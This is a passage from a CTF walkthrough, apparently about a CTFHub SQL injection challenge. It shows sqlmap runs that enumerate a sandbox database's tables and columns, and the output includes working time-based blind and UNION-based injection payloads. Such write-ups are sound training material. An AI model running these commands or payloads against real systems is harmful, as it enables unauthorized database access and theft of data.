 ### （2）表 `--tables`

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py "http://challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:49:41 /2023-08-25/

[15:49:41] [INFO] resuming back-end DBMS 'mysql' 
[15:49:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3202 FROM (SELECT(SLEEP(5)))YRbQ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2937 UNION ALL SELECT NULL,CONCAT(0x7176707071,0x6b6351537465477779424469434c4e4669796c6670694d4f504472585a737959596344736a4d794e,0x716b6a7a71)-- -
---
[15:49:42] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.19.3.2, PHP 7.3.14
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[15:49:42] [INFO] fetching tables for database: 'sqli'
[15:49:42] [WARNING] reflective value(s) found and filtering out
[15:49:42] [INFO] retrieved: 'flag'
[15:49:42] [INFO] retrieved: 'news'
Database: sqli                                                                                                                                                             
[2 tables]
+------+
| flag |
| news |
+------+

[15:49:42] [INFO] fetched data logged to text files under '/Users/xuyi/.local/share/sqlmap/output/challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com'
```

### （3）列 `--columns`

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py "http://challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns
 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:52:41 /2023-08-25/

[15:52:41] [INFO] resuming back-end DBMS 'mysql' 
[15:52:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```
